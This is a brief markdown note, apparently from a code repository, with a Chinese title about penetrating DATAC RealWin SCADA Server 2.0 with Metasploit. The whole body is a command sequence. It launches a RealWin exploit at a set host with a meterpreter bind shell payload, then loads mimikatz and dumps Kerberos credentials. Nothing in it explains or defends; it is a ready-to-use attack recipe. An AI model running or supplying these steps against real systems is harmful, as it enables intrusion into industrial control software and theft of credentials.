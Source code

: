 # 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0

```
msfconsole
use exploit/windows/scada/realwin_scpc_initialize
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
show options
exploit
sysinfo
load mimikatz
kerberos
```

## 